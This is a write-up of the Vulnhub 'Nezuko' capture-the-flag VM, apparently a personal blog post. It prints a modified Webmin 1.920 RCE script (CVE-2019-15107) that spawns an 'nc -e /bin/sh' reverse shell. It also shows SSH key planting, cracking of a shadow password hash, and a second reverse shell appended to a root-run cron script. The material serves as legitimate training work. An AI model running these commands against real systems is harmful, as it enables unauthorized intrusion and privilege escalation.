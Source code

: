 ```yaml
---
layout: post
title: Vulnhub - Nezuko writeup
date: 2019-08-24 8:07 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/nezuko-1,352/">Nezuko</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@yunaranyancat">  nezuko kamado </a></h4>

## Nmap

![](images/nez/nmap.png)

Let's start our enumeration with the HTTP services.

***

## HTTP (port 80)

If we visit the website we can see a simple message with a gif.

![](images/nez/website.png)

I ran `gobuster` on the website and found few extra pages.

![](images/nez/gobust.png)

In the `robots.txt` there was a base32 encoded string.

![](images/nez/robots.png)

I decoded it and got a message

![](images/nez/decoded.png)

`hint from nezuko : this is not the right port to enumerate ^w^`

But I still continued to look in the other dirs I found.

I visited to `/sample/` dir which had a file name `nothing_here.txt`

![](images/nez/sample.png)

And there was literally nothing there 😄😄

![](images/nez/nothing.png)

Since I didn't found anything on this port. I decided to checkout port `13337`

## HTTP (port 13337)

I tried visiting this port via browser but request kept getting timedout. For some reason I was not able to open this port. But we know that there is a `Webmin` server running with version `1.920` so I decided to look for some kind of exploit.

With a simple google search I found [Webmin 1.920 - Remote Code Execution](https://www.exploit-db.com/exploits/47293).

I ran the script and got `Vulnerable` 🎉🎉

![](images/nez/vuln.png)

Now if we look at the code properly it's running `echo` command and then telling us whether it's vulnerable or not.

```bash
-d 'user=wheel&pam=&expired=2&old=id|echo '$FLAG'&new1=wheel&new2=wheel'
```

If we can replace this echo command with `reverse shell` code that will give us a shell.

After making changes our code would look like

```bash
#!/bin/sh

URI=$1;

echo -n "Testing for RCE (CVE-2019-15107) on $URI: ";
curl -X POST -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|nc -e /bin/sh 192.168.56.1 1337 &new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi'

if [ $? -eq 0 ];
then
    echo '\033[0;31mVULNERABLE!\033[0m'
else
    echo '\033[0;32mOK! (target is not vulnerable) \033[0m'
fi
#EOF
```

I ran this script while my listener was listening and I got a shell.

![](images/nez/rev.png)

I got the `nezuko.txt` in the `/home/nezuko/`

![](images/nez/user.png)

`1af0941e0c4bd4564932184d47dd8bef`

***

## Horizontal Privilege Escalation

First of all this is a very shitty Shell that we have right now. I tried to spwan tty shell but for some reason couldn't.

I noticed that in the `/home/nezuko` there is a `.ssh` folder but the `id_rsa` was empty. We can just place our own `SSH Key`(`id_rsa.pub`) in `authorized_keys` and then login.

Once I did that I was able to login via SSH.

![](images/nez/ssh.png)

Now we have a good shell for further enumeration. I downloaded and ran `enumeration` script.

I found list of user but there was something weird with one user.

![](images/nez/users.png)

We can see the password hash for `zenitsu`.

`$6$LbPWwHSD$69t89j0Podkdd8dk17jNKt6Dl2.QYwSJGIX0cE5nysr6MX23DFvIAwmxEHOjhBj8rBplVa3rqcVDO0001PY9G0`

I saved the hash to a file and used john to crack the password. I got the result within minutes.

![](images/nez/crack.png)

Now we can change our user from `nezuko` to `zenitsu`

![](images/nez/su.png)

***

## Vertical privilege escalation

In the `/home/zenitsu` I found `zenitsu.txt`

![](images/nez/zenitsu.png)

`3f2ada6791f96b6a50a9ee43ee6b62df`

In that directory I found another dir name `to_nezuko` which had a shell script named `send_message_to_nezuko.sh`.

![](images/nez/shell.png)

If we look at the `/home/nezuko/from_zenitsu/` we'll find lot of message but all of them had `root` permissions meaning this script is running with root privileges.

![](images/nez/messages.png)

If we look at the perms of the shell file we can see that user `zenitsu` has the write to edit this file.

![](images/nez/perms.png)

This mean we can just put a reverse shell code in that file and wait for this script to run.

I ran `echo "nc -e /bin/sh 192.168.56.1 4444" >> send_message_to_nezuko.sh`

![](images/nez/put-code.png)

Now run your listener with `nc -nlvp 4444` and wait for the root shell to pop up.

After a minute or so I got the reverse shell.

![](images/nez/root-shell.png)

And then I got the root flag.

![](images/nez/root.png)

***

This is pretty good machine. The thing I liked about this VM was Nothing is hard and nothing is easy in this.

Thanks to [@yunaranyancat](https://twitter.com/@yunaranyancat) for making such a good VM.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
